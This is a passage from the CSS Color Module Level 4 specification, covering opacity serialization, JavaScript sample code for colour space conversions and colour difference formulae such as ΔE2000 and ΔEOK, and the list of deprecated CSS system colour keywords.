The serialized form of this value is derived from the computed value and uses [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) letters for the color name.

The serialized form of `currentColor` is the string "currentcolor".

### 17.  Serializing `<opacity-value>` {#css-color-4:serializing-opacity-values}

This applies to the `opacity` property, and to properties whose value includes `<opacity-value>`, such as `shape-image-threshold`.

If the specified value for an opacity value matches a literal `<percentage-token>` (i.e. does not use `calc()`) it should be serialized as the equivalent `<number>` (0% maps to 0, 100% maps to 1) value. value. Otherwise, the specified value for an opacity value should serialize using the standard serialization for the grammar.

This `<number>` value is expressed in base ten, with the "." character as decimal separator. The leading zero must not be omitted. Trailing zeroes must be omitted.

Opacity values outside the range [0,1] are preserved, without clamping, in the serialized specified value.

The precision with which opacity values are retained, and thus the number of decimal places in the serialized value, is not defined in this specification, but must at least be sufficient to round-trip integer percentage values. Thus, the serialized value must contain at least two decimal places (unless trailing zeroes have been removed). Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

### 18.  Default Style Rules {#css-color-4:sample}

The following stylesheet is informative, not normative. This style sheet could be used by an implementation as part of its default styling of HTML documents.

```css
/* traditional desktop user agent colors for hyperlinks */
:link { color: LinkText; }
:visited { color: VisitedText; }
:active { color: ActiveText; }
```

### 19.  Sample code for Color Conversions {#css-color-4:color-conversion-code}

*This section is not normative.*

For clarity, [a library](../css-color-4/multiply-matrices.js) is used for matrix multiplication. (This is more readable than inlining all the multiplies and adds). The matrices are in [row-major order](https://www.scratchapixel.com/lessons/mathematics-physics-for-computer-graphics/geometry/row-major-vs-column-major-vector).

```javascript
// Sample code for color conversions
// Conversion can also be done using ICC profiles and a Color Management System
// For clarity, a library is used for matrix multiplication (multiply-matrices.js)

// standard white points, defined by 4-figure CIE x,y chromaticities
const D50 = [0.3457 / 0.3585, 1.00000, (1.0 - 0.3457 - 0.3585) / 0.3585];
const D65 = [0.3127 / 0.3290, 1.00000, (1.0 - 0.3127 - 0.3290) / 0.3290];

// sRGB-related functions

function lin_sRGB(RGB) {
	// convert an array of sRGB values
	// where in-gamut values are in the range [0 - 1]
	// to linear light (un-companded) form.
	// https://en.wikipedia.org/wiki/SRGB
	// Extended transfer function:
	// for negative values,  linear portion is extended on reflection of axis,
	// then reflected power function is used.
	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);

		if (abs <= 0.04045) {
			return val / 12.92;
		}

		return sign * (Math.pow((abs + 0.055) / 1.055, 2.4));
	});
}

function gam_sRGB(RGB) {
	// convert an array of linear-light sRGB values in the range 0.0-1.0
	// to gamma corrected form
	// https://en.wikipedia.org/wiki/SRGB
	// Extended transfer function:
	// For negative values, linear portion extends on reflection
	// of axis, then uses reflected pow below that
	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);

		if (abs > 0.0031308) {
			return sign * (1.055 * Math.pow(abs, 1/2.4) - 0.055);
		}

		return 12.92 * val;
	});
}

function lin_sRGB_to_XYZ(rgb) {
	// convert an array of linear-light sRGB values to CIE XYZ
	// using sRGB's own white, D65 (no chromatic adaptation)

	var M = [
		[ 506752 / 1228815,  87881 / 245763,   12673 /   70218 ],
		[  87098 /  409605, 175762 / 245763,   12673 /  175545 ],
		[   7918 /  409605,  87881 / 737289, 1001167 / 1053270 ],
	];
	return multiplyMatrices(M, rgb);
}

function XYZ_to_lin_sRGB(XYZ) {
	// convert XYZ to linear-light sRGB

	var M = [
		[   12831 /   3959,    -329 /    214, -1974 /   3959 ],
		[ -851781 / 878810, 1648619 / 878810, 36519 / 878810 ],
		[     705 /  12673,   -2585 /  12673,   705 /    667 ],
	];

	return multiplyMatrices(M, XYZ);
}

//  display-p3-related functions

function lin_P3(RGB) {
	// convert an array of display-p3 RGB values in the range 0.0 - 1.0
	// to linear light (un-companded) form.

	return lin_sRGB(RGB);	// same as sRGB
}

function gam_P3(RGB) {
	// convert an array of linear-light display-p3 RGB  in the range 0.0-1.0
	// to gamma corrected form

	return gam_sRGB(RGB);	// same as sRGB
}

function lin_P3_to_XYZ(rgb) {
	// convert an array of linear-light display-p3 values to CIE XYZ
	// using  D65 (no chromatic adaptation)
	// http://www.brucelindbloom.com/index.html?Eqn_RGB_XYZ_Matrix.html
	var M = [
		[ 608311 / 1250200, 189793 / 714400,  198249 / 1000160 ],
		[  35783 /  156275, 247089 / 357200,  198249 / 2500400 ],
		[      0 /       1,  32229 / 714400, 5220557 / 5000800 ],
	];

	return multiplyMatrices(M, rgb);
}

function XYZ_to_lin_P3(XYZ) {
	// convert XYZ to linear-light P3
	var M = [
		[ 446124 / 178915, -333277 / 357830, -72051 / 178915 ],
		[ -14852 /  17905,   63121 /  35810,    423 /  17905 ],
		[  11844 / 330415,  -50337 / 660830, 316169 / 330415 ],
	];

	return multiplyMatrices(M, XYZ);
}

// prophoto-rgb functions

function lin_ProPhoto(RGB) {
	// convert an array of prophoto-rgb values
	// where in-gamut colors are in the range [0.0 - 1.0]
	// to linear light (un-companded) form.
	// Transfer curve is gamma 1.8 with a small linear portion
	// Extended transfer function
	const Et2 = 16/512;
	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);

		if (abs <= Et2) {
			return val / 16;
		}

		return sign * Math.pow(abs, 1.8);
	});
}

function gam_ProPhoto(RGB) {
	// convert an array of linear-light prophoto-rgb  in the range 0.0-1.0
	// to gamma corrected form
	// Transfer curve is gamma 1.8 with a small linear portion
	// TODO for negative values, extend linear portion on reflection of axis, then add pow below that
	const Et = 1/512;
	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);

		if (abs >= Et) {
			return sign * Math.pow(abs, 1/1.8);
		}

		return 16 * val;
	});
}

function lin_ProPhoto_to_XYZ(rgb) {
	// convert an array of linear-light prophoto-rgb values to CIE D50 XYZ
	// matrix cannot be expressed in rational form, but is calculated to 64 bit accuracy
	// see https://github.com/w3c/csswg-drafts/issues/7675
	var M = [
		[ 0.79776664490064230,  0.13518129740053308,  0.03134773412839220 ],
		[ 0.28807482881940130,  0.71183523424187300,  0.00008993693872564 ],
		[ 0.00000000000000000,  0.00000000000000000,  0.82510460251046020 ]
	];

	return multiplyMatrices(M, rgb);
}

function XYZ_to_lin_ProPhoto(XYZ) {
	// convert D50 XYZ to linear-light prophoto-rgb
	var M = [
		[  1.34578688164715830, -0.25557208737979464, -0.05110186497554526 ],
        [ -0.54463070512490190,  1.50824774284514680,  0.02052744743642139 ],
        [  0.00000000000000000,  0.00000000000000000,  1.21196754563894520 ]
	];

	return multiplyMatrices(M, XYZ);
}

// a98-rgb functions

function lin_a98rgb(RGB) {
	// convert an array of a98-rgb values in the range 0.0 - 1.0
	// to linear light (un-companded) form.
	// negative values are also now accepted
	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);

	  	return sign * Math.pow(abs, 563/256);
	});
}

function gam_a98rgb(RGB) {
	// convert an array of linear-light a98-rgb  in the range 0.0-1.0
	// to gamma corrected form
	// negative values are also now accepted
	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);

		return sign * Math.pow(abs, 256/563);
	});
}

function lin_a98rgb_to_XYZ(rgb) {
	// convert an array of linear-light a98-rgb values to CIE XYZ
	// http://www.brucelindbloom.com/index.html?Eqn_RGB_XYZ_Matrix.html
	// has greater numerical precision than section 4.3.5.3 of
	// https://www.adobe.com/digitalimag/pdfs/AdobeRGB1998.pdf
	// but the values below were calculated from first principles
	// from the chromaticity coordinates of R G B W
	// see matrixmaker.html
	var M = [
		[ 573536 /  994567,  263643 / 1420810,  187206 /  994567 ],
		[ 591459 / 1989134, 6239551 / 9945670,  374412 / 4972835 ],
		[  53769 / 1989134,  351524 / 4972835, 4929758 / 4972835 ],
	];

	return multiplyMatrices(M, rgb);
}

function XYZ_to_lin_a98rgb(XYZ) {
	// convert XYZ to linear-light a98-rgb
	var M = [
		[ 1829569 /  896150, -506331 /  896150, -308931 /  896150 ],
		[ -851781 /  878810, 1648619 /  878810,   36519 /  878810 ],
		[   16779 / 1248040, -147721 / 1248040, 1266979 / 1248040 ],
	];

	return multiplyMatrices(M, XYZ);
}

//Rec. 2020-related functions

function lin_2020(RGB) {
	// convert an array of rec2020 RGB values in the range 0.0 - 1.0
	// to linear light (un-companded) form.
	//  Reference electro-optical transfer function from Rec. ITU-R BT.1886 Annex 1
	//  with b (black lift) = 0 and a (user gain) = 1
	//  defined over the extended range, not clamped

	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);
		return sign * Math.pow(abs, 2.4);
	});
}

function gam_2020(RGB) {
	// convert an array of linear-light rec2020 RGB  in the range 0.0-1.0
	// to gamma corrected form
	//  Reference electro-optical transfer function from Rec. ITU-R BT.1886 Annex 1
	//  with b (black lift) = 0 and a (user gain) = 1
	//  defined over the extended range, not clamped

	return RGB.map(function (val) {
		let sign = val < 0? -1 : 1;
		let abs = Math.abs(val);
		return sign * Math.pow(abs, 1 / 2.4);
	});
}

function lin_2020_to_XYZ(rgb) {
	// convert an array of linear-light rec2020 values to CIE XYZ
	// using  D65 (no chromatic adaptation)
	var M = [
		[ 63426534 / 99577255,  20160776 / 139408157,  47086771 / 278816314 ],
		[ 26158966 / 99577255, 472592308 / 697040785,   8267143 / 139408157 ],
		[        0 /        1,  19567812 / 697040785, 295819943 / 278816314 ],
	];
	// 0 is actually calculated as  4.994106574466076e-17

	return multiplyMatrices(M, rgb);
}

function XYZ_to_lin_2020(XYZ) {
	// convert XYZ to linear-light rec2020
	var M = [
		[  30757411 / 17917100, -6372589 / 17917100, -4539589 / 17917100 ],
		[ -19765991 / 29648200, 47925759 / 29648200,   467509 / 29648200 ],
		[    792561 / 44930125, -1921689 / 44930125, 42328811 / 44930125 ],
	];

	return multiplyMatrices(M, XYZ);
}

// Chromatic adaptation

function D65_to_D50(XYZ) {
	// Bradford chromatic adaptation from D65 to D50
	// The matrix below is the result of three operations:
	// - convert from XYZ to retinal cone domain
	// - scale components from one reference white to another
	// - convert back to XYZ
	// see https://github.com/LeaVerou/color.js/pull/354/files
	
	var M =  [
		[  1.0479297925449969,    0.022946870601609652,  -0.05019226628920524  ],
		[  0.02962780877005599,   0.9904344267538799,    -0.017073799063418826 ],
		[ -0.009243040646204504,  0.015055191490298152,   0.7518742814281371   ]
	];

	return multiplyMatrices(M, XYZ);
}

function D50_to_D65(XYZ) {
	// Bradford chromatic adaptation from D50 to D65
	// See https://github.com/LeaVerou/color.js/pull/360/files
	var M = [
		[  0.955473421488075,    -0.02309845494876471,   0.06325924320057072  ],
		[ -0.0283697093338637,    1.0099953980813041,    0.021041441191917323 ],
		[  0.012314014864481998, -0.020507649298898964,  1.330365926242124    ]
	];

	return multiplyMatrices(M, XYZ);
}

// CIE Lab and LCH

function XYZ_to_Lab(XYZ) {
	// Assuming XYZ is relative to D50, convert to CIE Lab
	// from CIE standard, which now defines these as a rational fraction
	var ε = 216/24389;  // 6^3/29^3
	var κ = 24389/27;   // 29^3/3^3

	// compute xyz, which is XYZ scaled relative to reference white
	var xyz = XYZ.map((value, i) => value / D50[i]);

	// now compute f
	var f = xyz.map(value => value > ε ? Math.cbrt(value) : (κ * value + 16)/116);

	return [
		(116 * f[1]) - 16, 	 // L
		500 * (f[0] - f[1]), // a
		200 * (f[1] - f[2])  // b
	];
	// L in range [0,100]. For use in CSS, add a percent
}

function Lab_to_XYZ(Lab) {
	// Convert Lab to D50-adapted XYZ
	// http://www.brucelindbloom.com/index.html?Eqn_Lab_to_XYZ.html
	var κ = 24389/27;   // 29^3/3^3
	var ε = 216/24389;  // 6^3/29^3
	var f = [];

	// keep L out of L+16 for near-black precision
	var lightness116 = Lab[0]/116;
	var a500 = Lab[1]/500;
	var b200 = Lab[2]/200;

	// compute f, starting with the luminance-related term
	f[1] = lightness116 + (16/116);
	f[0] = f[1] + a500;
	f[2] = f[1] - b200;

	// compute xyz
	var xyz = [
		Math.pow(f[0],3) > ε ?   Math.pow(f[0],3)            : (lightness116 + a500) * (116/κ),
		Lab[0] > κ * ε ?         Math.pow((Lab[0]+16)/116,3) : Lab[0]/κ,
		Math.pow(f[2],3) > ε ?   Math.pow(f[2],3)            : (lightness116 - b200) * (116/κ)
	];

	// Compute XYZ by scaling xyz by reference white
	return xyz.map((value, i) => value * D50[i]);
}

function Lab_to_LCH(Lab) {
	var epsilon = 0.0015;
	var chroma = Math.sqrt(Math.pow(Lab[1], 2) + Math.pow(Lab[2], 2)); // Chroma
	var hue = Math.atan2(Lab[2], Lab[1]) * 180 / Math.PI;
	if (hue < 0) {
		hue = hue + 360;
	}
	if (chroma <= epsilon) {
		hue = NaN;
	}
	return [
		Lab[0], // L is still L
		chroma, // Chroma
		hue // Hue, in degrees [0 to 360)
	];
}

function LCH_to_Lab(LCH) {
	// Convert from polar form
	return [
		LCH[0], // L is still L
		LCH[1] * Math.cos(LCH[2] * Math.PI / 180), // a
		LCH[1] * Math.sin(LCH[2] * Math.PI / 180) // b
	];
}

// OKLab and OKLCH
// https://bottosson.github.io/posts/oklab/

// XYZ <-> LMS matrices recalculated for consistent reference white
// see https://github.com/w3c/csswg-drafts/issues/6642#issuecomment-943521484
// recalculated for 64bit precision
// see https://github.com/color-js/color.js/pull/357

function XYZ_to_OKLab(XYZ) {
	// Given XYZ relative to D65, convert to OKLab
	var XYZtoLMS = [
		[ 0.8190224379967030, 0.3619062600528904, -0.1288737815209879 ],
		[ 0.0329836539323885, 0.9292868615863434,  0.0361446663506424 ],
		[ 0.0481771893596242, 0.2642395317527308,  0.6335478284694309 ]
	];
	var LMStoOKLab = [
		[ 0.2104542683093140,  0.7936177747023054, -0.0040720430116193 ],
		[ 1.9779985324311684, -2.4285922420485799,  0.4505937096174110 ],
		[ 0.0259040424655478,  0.7827717124575296, -0.8086757549230774 ]
	];

	var LMS = multiplyMatrices(XYZtoLMS, XYZ);
	// JavaScript Math.cbrt returns a sign-matched cube root
	// beware if porting to other languages
	// especially if tempted to use a general power function
	return multiplyMatrices(LMStoOKLab, LMS.map(c => Math.cbrt(c)));
	// L in range [0,1]. For use in CSS, multiply by 100 and add a percent
}

function OKLab_to_XYZ(OKLab) {
	// Given OKLab, convert to XYZ relative to D65
	var LMStoXYZ =  [
		[  1.2268798758459243, -0.5578149944602171,  0.2813910456659647 ],
		[ -0.0405757452148008,  1.1122868032803170, -0.0717110580655164 ],
		[ -0.0763729366746601, -0.4214933324022432,  1.5869240198367816 ]
	];
	var OKLabtoLMS = [
		[ 1.0000000000000000,  0.3963377773761749,  0.2158037573099136 ],
		[ 1.0000000000000000, -0.1055613458156586, -0.0638541728258133 ],
		[ 1.0000000000000000, -0.0894841775298119, -1.2914855480194092 ]
    ];

	var LMSnl = multiplyMatrices(OKLabtoLMS, OKLab);
	return multiplyMatrices(LMStoXYZ, LMSnl.map(c => c ** 3));
}

function OKLab_to_OKLCH(OKLab) {
	var epsilon = 0.000004;
	var hue = Math.atan2(OKLab[2], OKLab[1]) * 180 / Math.PI;
	var chroma = Math.sqrt(OKLab[1] ** 2 + OKLab[2] ** 2);
	if (hue < 0) {
		hue = hue + 360;
	}
	if (chroma <= epsilon) {
		hue = NaN;
	}
	return [
		OKLab[0], // L is still L
		chroma,
		hue
	];
}

function OKLCH_to_OKLab(OKLCH) {
	return [
		OKLCH[0], // L is still L
		OKLCH[1] * Math.cos(OKLCH[2] * Math.PI / 180), // a
		OKLCH[1] * Math.sin(OKLCH[2] * Math.PI / 180)  // b
	];
}

// Premultiplied alpha conversions

function rectangular_premultiply(color, alpha) {
// given a color in a rectangular orthogonal colorspace
// and an alpha value
// return the premultiplied form
	return color.map((c) => c * alpha)
}

function rectangular_un_premultiply(color, alpha) {
// given a premultiplied color in a rectangular orthogonal colorspace
// and an alpha value
// return the actual color
	if (alpha === 0) {
		return color; // avoid divide by zero
	}
	return color.map((c) => c / alpha)
}

function polar_premultiply(color, alpha, hueIndex) {
	// given a color in a cylindicalpolar colorspace
	// and an alpha value
	// return the premultiplied form.
	// the index says which entry in the color array corresponds to hue angle
	// for example, in OKLCH it would be 2
	// while in HSL it would be 0
	return color.map((c, i) => c * (hueIndex === i? 1 : alpha))
}

function polar_un_premultiply(color, alpha, hueIndex) {
	// given a color in a cylindicalpolar colorspace
	// and an alpha value
	// return the actual color.
	// the hueIndex says which entry in the color array corresponds to hue angle
	// for example, in OKLCH it would be 2
	// while in HSL it would be 0
	if (alpha === 0) {
		return color; // avoid divide by zero
	}
	return color.map((c, i) => c / (hueIndex === i? 1 : alpha))
}

// Convenience functions can easily be defined, such as
function hsl_premultiply(color, alpha) {
	return polar_premultiply(color, alpha, 0);
}
```

```javascript
/**
 * Change powerless components to missing components.
 *
 * A missing component is represented by null.
 *
 * @param {Array<number|null>} color - Three color components.
 * @param {string} space - One of "hsl", "hwb", "lch", or "oklch".
 * @return {Array<number|null>} A copy of color with powerless components
 *   changed to null.
 */
function powerlessToMissing (color, space) {
	let out = [...color];

	switch (space) {
		case "hsl": {
			// https://drafts.csswg.org/css-color-4/#prr-hsl
			let sat = out[1] === null ? 0 : out[1];

			if (sat <= 0.001) {
				out[0] = null;

				if (out[1] !== null && out[1] > 0) {
					out[1] = 0;
				}
			}
			break;
		}

		case "hwb": {
			// https://drafts.csswg.org/css-color-4/#prr-hwb
			let white = out[1] === null ? 0 : out[1];
			let black = out[2] === null ? 0 : out[2];

			if (white + black >= 99.999) {
				out[0] = null;

				if (white + black < 100) {
					if (out[1] === null) {
						out[2] = 100;
					} else if (out[2] === null) {
						out[1] = 100;
					} else {
						out[2] = 100 - out[1];
					}
				}
			}
			break;
		}

		case "lch": {
			// https://drafts.csswg.org/css-color-4/#prr-lch
			let chroma = out[1] === null ? 0 : out[1];

			if (chroma <= 0.0015) {
				out[2] = null;

				if (out[1] !== null && out[1] > 0) {
					out[1] = 0;
				}
			}
			break;
		}

		case "oklch": {
			// https://drafts.csswg.org/css-color-4/#prr-oklch
			let chroma = out[1] === null ? 0 : out[1];

			if (chroma <= 0.000004) {
				out[2] = null;

				if (out[1] !== null && out[1] > 0) {
					out[1] = 0;
				}
			}
			break;
		}
	}

	return out;
}
```

### 20.  Color Difference Formulae {#css-color-4:color-difference-code}

*This section is not normative.*

#### 20.1.  Introduction to Color Difference metrics. {#css-color-4:color-differences-intro}

A color difference formula estimates how different two colors *appear*. It can be used for quality assurance (measuring whether a reproduced color is correct), or for some types of gamut mapping, where the color difference between the out of gamut and in-gamut colors is minimized.

Historically, the general class of color difference formulae is called ΔE (delta E); where the E is short for Empfindung, the German word for "sensation".

The simplest color difference metric, ΔE76, is simply the Euclidean distance in CIE Lab color space, which first became an International Standard in 1976.

While ΔE76 is a good first approximation, color-critical industries such as printing and fabric dyeing soon developed improved formulae as the limitations of CIE Lab became evident.

As formulae became more complex, practical implementations needed to trade off predictive accuracy against computational complexity (and thus, speed).

#### 20.2. ΔE2000 {#css-color-4:color-difference-2000}

Currently, the most widely used formula for standard dynamic range colors is ΔE2000. It corrects a number of known asymmetries and non-linearities compared to ΔE76. Because the formula is complex, and critically dependent on the sign of various intermediate calculations, implementations are often incorrect [Sharma].

The sample code below has been [validated](https://colorjs.io/test/?test=delta) to five significant figures against the test suite of paired Lab values and expected ΔE2000 published by [Sharma] and is correct.

```javascript
// deltaE2000 is a statistically significant improvement
// over deltaE76 and deltaE94,
// and is recommended by the CIE and Idealliance
// especially for color differences less than 10 deltaE76
// but is wicked complicated
// and many implementations have small errors!

/**
 * @param {number[]} reference - Array of CIE Lab values: L as 0..100, a and b as around -150..150
 * @param {number[]} sample - Array of CIE Lab values: L as 0..100, a and b as around -150..150
 * @return {number} How different a color sample is from reference
 */

function deltaE2000 (reference, sample) {

    // Given a reference and a sample color,
    // both in CIE Lab,
    // calculate deltaE 2000.

    // This implementation assumes the parametric
    // weighting factors kL, kC and kH
    // (for the influence of viewing conditions)
    // are all 1, as seems typical.

    let [L1, a1, b1] = reference;
    let [L2, a2, b2] = sample;
    let C1 = Math.sqrt(a1 ** 2 + b1 ** 2);
    let C2 = Math.sqrt(a2 ** 2 + b2 ** 2);

	let Cbar = (C1 + C2)/2; // mean Chroma

	// calculate a-axis asymmetry factor from mean Chroma
	// this turns JND ellipses for near-neutral colors back into circles
	let C7 = Math.pow(Cbar, 7);
	const Gfactor = Math.pow(25, 7);
	let G = 0.5 * (1 - Math.sqrt(C7/(C7+Gfactor)));

	// scale a axes by asymmetry factor
	// this by the way is why there is no Lab2000 color space
	let adash1 = (1 + G) * a1;
	let adash2 = (1 + G) * a2;

	// calculate new Chroma from scaled a and original b axes
	let Cdash1 = Math.sqrt(adash1 ** 2 + b1 ** 2);
	let Cdash2 = Math.sqrt(adash2 ** 2 + b2 ** 2);

	// calculate new hues, with zero hue for true neutrals
	// and in degrees, not radians
	const π = Math.PI;
	const r2d = 180 / π;
	const d2r = π / 180;
	let h1 = (adash1 === 0 && b1 === 0)? 0: Math.atan2(b1, adash1);
	let h2 = (adash2 === 0 && b2 === 0)? 0: Math.atan2(b2, adash2);

	if (h1 < 0) {
		h1 += 2 * π;
	}
	if (h2 < 0) {
		h2 += 2 * π;
	}

	h1 *= r2d;
	h2 *= r2d;

	// Lightness and Chroma differences; sign matters
	let ΔL = L2 - L1;
	let ΔC = Cdash2 - Cdash1;

	// Hue difference, taking care to get the sign correct
	let hdiff = h2 - h1;
	let hsum = h1 + h2;
	let habs = Math.abs(hdiff);
	let Δh;

	if (Cdash1 * Cdash2 === 0) {
		Δh = 0;
	}
	else if (habs <= 180) {
		Δh = hdiff;
	}
	else if (hdiff > 180) {
		Δh = hdiff - 360;
	}
	else if (hdiff < -180) {
		Δh = hdiff + 360;
	}
	else {
		console.log("the unthinkable has happened");
	}

	// weighted Hue difference, more for larger Chroma
	let ΔH = 2 * Math.sqrt(Cdash2 * Cdash1) * Math.sin(Δh * d2r / 2);

	// calculate mean Lightness and Chroma
	let Ldash = (L1 + L2)/2;
	let Cdash = (Cdash1 + Cdash2)/2;
	let Cdash7 = Math.pow(Cdash, 7);

	// Compensate for non-linearity in the blue region of Lab.
	// Four possibilities for hue weighting factor,
	// depending on the angles, to get the correct sign
	let hdash;
	if (Cdash1 * Cdash2 === 0) {
		hdash = hsum;
	}
	else if (habs <= 180) {
		hdash = hsum / 2;
	}
	else if (hsum < 360) {
		hdash = (hsum + 360) / 2;
	}
	else {
		hdash = (hsum - 360) / 2;
	}

	// positional corrections to the lack of uniformity of CIELAB
	// These are all trying to make JND ellipsoids more like spheres

	// SL Lightness crispening factor
	// a background with L=50 is assumed
	let lsq = (Ldash - 50) ** 2;
	let SL = 1 + ((0.015 * lsq) / Math.sqrt(20 + lsq));

	// SC Chroma factor, similar to those in CMC and deltaE 94 formulae
	let SC = 1 + 0.045 * Cdash;

	// Cross term T for blue non-linearity
	let T = 1;
	T -= (0.17 * Math.cos((     hdash - 30)  * d2r));
	T += (0.24 * Math.cos(  2 * hdash        * d2r));
	T += (0.32 * Math.cos(((3 * hdash) + 6)  * d2r));
	T -= (0.20 * Math.cos(((4 * hdash) - 63) * d2r));

	// SH Hue factor depends on Chroma,
	// as well as adjusted hue angle like deltaE94.
	let SH = 1 + 0.015 * Cdash * T;

	// RT Hue rotation term compensates for rotation of JND ellipses
	// and Munsell constant hue lines
	// in the medium-high Chroma blue region
	// (Hue 225 to 315)
	let Δθ = 30 * Math.exp(-1 * (((hdash - 275)/25) ** 2));
	let RC = 2 * Math.sqrt(Cdash7/(Cdash7 + Gfactor));
	let RT = -1 * Math.sin(2 * Δθ * d2r) * RC;

	// Finally calculate the deltaE, term by term as root sum of squares
	let dE = (ΔL / SL) ** 2;
	dE += (ΔC / SC) ** 2;
	dE += (ΔH / SH) ** 2;
	dE += RT * (ΔC / SC) * (ΔH / SH);
	return Math.sqrt(dE);
	// Yay!!!
};
```

#### 20.3. ΔEOK {#css-color-4:color-difference-OK}

Because Oklab does not suffer from the hue linearity, hue uniformity, and chroma non-linearities of CIE Lab, the color difference metric does not need to correct for them and so ΔEOK is simply the Euclidean distance in Oklab color space.

```javascript
// Calculate deltaE OK
// simple root sum of squares
/**
 * @param {number[]} reference - Array of OKLab values: L as 0..1, a and b as -1..1
 * @param {number[]} sample - Array of OKLab values: L as 0..1, a and b as -1..1
 * @return {number} How different a color sample is from reference
 */
function deltaEOK (reference, sample) {
    let [L1, a1, b1] = reference;
	let [L2, a2, b2] = sample;
	let ΔL = L1 - L2;
	let Δa = a1 - a2;
	let Δb = b1 - b2;
	return Math.sqrt(ΔL ** 2 + Δa ** 2 + Δb ** 2);
}
```

#### 20.4. ΔEOK2 {#css-color-4:color-difference-OK2}

As a color difference metric, ΔEOK under-estimates differences in colorfulness, compared to differences in lightness. Experimentation revealed that [scaling](https://github.com/w3c/csswg-drafts/issues/6642#issuecomment-945714988) `a` and `b` by a factor of 2, greatly [increased the predictive accuracy of an Oklab-based ΔE](https://github.com/svgeesus/deltaE-OK2/tree/main), when compared to ΔE2000. Instead of changing the definition of Oklab, which is now widely adopted, this produces another distance metric ΔEOK2.

```javascript
// Calculate deltaE OK2
// root sum of squares, scale a and b by 2
/**
 * @param {number[]} reference - Array of OKLab values: L as 0..1, a and b as -1..1
 * @param {number[]} sample - Array of OKLab values: L as 0..1, a and b as -1..1
 * @return {number} How different a color sample is from reference
 */
function deltaEOK2 (reference, sample) {
    let [L1, a1, b1] = reference;
	let [L2, a2, b2] = sample;
	let ΔL = L1 - L2;
	let Δa = 2 * (a1 - a2);
	let Δb = 2 * (b1 - b2);
	return Math.sqrt(ΔL ** 2 + Δa ** 2 + Δb ** 2);
}
```

#### 20.5. ΔEOKr2 {#css-color-4:color-difference-OK2r}

A further improvement can be made by modifying the Lightness axis [to add a "toe"](https://bottosson.github.io/posts/colorpicker/#intermission---a-new-lightness-estimate-for-oklab). This is particularly helpful where there is a significant white adaptive stimulus (for example, a light-mode web page with a white background). It also makes the lightness curve more similar to that of CIE Lab.


Lightness functions of Oklrab and CIE Lab compared to Oklab.

In a color difference metric, this is used in combination with the `a` and `b` scaling.

While this is somewhat more complex than the original ΔEOK, it agrees significantly better with ΔE2000, while still being far less complex than ΔE2000.

**Implementations which are performance-sensitive are encouraged to use ΔEOKr2 as a color difference metric.**

```javascript
// Calculate deltaE OKr2
// root sum of squares, lightness toe, scale a and b by 2
/**
 * @param {number[]} reference - Array of OKLab values: L as 0..1, a and b as -1..1
 * @param {number[]} sample - Array of OKLab values: L as 0..1, a and b as -1..1
 * @return {number} How different a color sample is from reference
 */
function deltaEOKr2 (reference, sample) {
    let [L1, a1, b1] = reference;
	let [L2, a2, b2] = sample;
	L1 = toe(L1);
	L2 = toe(L2);
	let ΔL = L1 - L2;
	let Δa = 2 * (a1 - a2);
	let Δb = 2 * (b1 - b2);
	return Math.sqrt(ΔL ** 2 + Δa ** 2 + Δb ** 2);
}

// Add a lightness toe
// https://bottosson.github.io/posts/colorpicker/#intermission---a-new-lightness-estimate-for-oklab
/**
 * @param {number} x - Oklab lightness
 * @return {number} Toed lightness
 */
function toe (x) {
	const K1 = 0.206;
	const K2 = 0.03;
	const K3 = (1.0 + K1) / (1.0 + K2);
	return 0.5 * (K3 * x - K1 + Math.sqrt((K3 * x - K1) * (K3 * x - K1) + 4 * K2 * K3 * x));
}
```

### Appendix A: Deprecated CSS System Colors {#css-color-4:deprecated-system-colors}

Earlier versions of CSS defined several additional system colors. These color keywords have been **deprecated**, however, as they are insufficient for their original purpose (making website elements look like their native OS counterparts), represent a security risk by making it easier for a webpage to “spoof” a native OS dialog, and increase fingerprinting surface, compromising user privacy.

User agents must support these keywords, and to mitigate fingerprinting must map them to the (undeprecated) system colors as listed below. **Authors must not use these keywords.**

The deprecated system colors are represented as the **`<deprecated-color>`** sub-type, and are defined as:

****ActiveBorder****

: Active window border. Computes to the color of `ButtonBorder`.

****ActiveCaption****

: Active window caption. Computes to the color of `Canvas`.

****AppWorkspace****

: Background color of multiple document interface. Computes to the color of `Canvas`.

****Background****

: Desktop background. Computes to the color of `Canvas`.

****ButtonHighlight****

: The color of the border facing the light source for 3-D elements that appear 3-D due to one layer of surrounding border. Computes to the color of `ButtonFace`.

****ButtonShadow****

: The color of the border away from the light source for 3-D elements that appear 3-D due to one layer of surrounding border. Computes to the color of `ButtonFace`.

****CaptionText****

: Text in caption, size box, and scrollbar arrow box. Computes to the color of `CanvasText`.

****InactiveBorder****

: Inactive window border. Computes to the color of `ButtonBorder`.

****InactiveCaption****

: Inactive window caption. Computes to the color of `Canvas`.

****InactiveCaptionText****

: Color of text in an inactive caption. Computes to the color of `GrayText`.

****InfoBackground****

: Background color for tooltip controls. Computes to the color of `Canvas`.

****InfoText****

: Text color for tooltip controls. Computes to the color of `CanvasText`.

****Menu****

: Menu background. Computes to the color of `Canvas`.

****MenuText****

: Text in menus. Computes to the color of `CanvasText`.

****Scrollbar****

: Scroll bar gray area. Computes to the color of `Canvas`.

****ThreeDDarkShadow****

: The color of the darker (generally outer) of the two borders away from the light source for 3-D elements that appear 3-D due to two concentric layers of surrounding border. Computes to the color of `ButtonBorder`.

****ThreeDFace****

: The face background color for 3-D elements that appear 3-D due to two concentric layers of surrounding border. Computes to the color of `ButtonFace`.

****ThreeDHighlight****

: The color of the lighter (generally outer) of the two borders facing the light source for 3-D elements that appear 3-D due to two concentric layers of surrounding border. Computes to the color of `ButtonBorder`.

****ThreeDLightShadow****

: The color of the darker (generally inner) of the two borders facing the light source for 3-D elements that appear 3-D due to two concentric layers of surrounding border. Computes to the color of `ButtonBorder`.

****ThreeDShadow****

: The color of the lighter (generally inner) of the two borders away from the light source for 3-D elements that appear 3-D due to two concentric layers of surrounding border. Computes to the color of `ButtonBorder`.

****Window****

